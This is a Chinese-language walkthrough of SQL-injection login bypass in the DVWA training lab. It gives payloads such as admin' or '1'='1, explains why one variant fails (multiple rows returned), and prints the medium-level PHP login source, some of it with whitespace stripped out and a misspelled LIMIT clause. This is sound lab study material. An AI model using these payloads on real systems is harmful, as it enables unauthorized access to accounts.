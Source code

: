直接注入,我们的目的是登陆,这两个payload都是可行的,密码都保持为空
`admin' or '1'=1`  `admin' -- `

但是!!!
下面是~~**没解决的问题**~~<span id="blpj"></span>

```
mysql> SELECT * FROM `users` WHERE user = 'admin' or '1'='1'  AND password = '$pass';
实际输入的:admin' or '1'='1

mysql> SELECT * FROM `users` WHERE user = 'admin' or 1=1 -- '  AND password = '$pass';
实际输入的:`admin' or 1=1 -- `  //末尾输入了空格的

这两个再mysql里试了都可以.dvwa里输入第一个可以,第二个就不行
回显:Username and/or password incorrect.
没搞懂为啥不行.

但是第二个把` admin' or 1=1 -- ` 改为 `admin' and 1=1 -- `又可以了.
没搞懂,为什么又可以了.脑壳疼.

----------
解答
使用`admin' or 1=1 -- `查询的时候,返回的是多条语句,源码中会判断查询返回值为1的时候才算登陆成功.
因为`admin' and 1=1 -- `查询的时候admin起到了限制作用,数据库中只有一条admin,所以成功了.
那么要用or,解决方案就是添加一个limit`name' or 1=1 limt 0,1 -- `
```

### medium等级
直接查看源码

```php
<?php

if(isset($_GET['Login'])){
//Sanitiseusernameinput
$user=$_GET['username'];
$user=mysql_real_escape_string($user);

//Sanitisepasswordinput
$pass=$_GET['password'];
$pass=mysql_real_escape_string($pass);
$pass=md5($pass);

//Checkthedatabase
$query="SELECT*FROM`users`WHEREuser='$user'ANDpassword='$pass';";
$result=mysql_query($query)ordie('<pre>'.mysql_error().'</pre>');

if($result&&mysql_num_rows($result)==1){
//Getusersdetails
$avatar=mysql_result($result,0,"avatar");

//Loginsuccessful
echo"<p>Welcometothepasswordprotectedarea{$user}</p>";
echo"<imgsrc="{$avatar}"/>";
}
else{
//Loginfailed
sleep(2);
echo"<pre><br/>Usernameand/orpasswordincorrect.</pre>";
}

mysql_close();
}

?>
```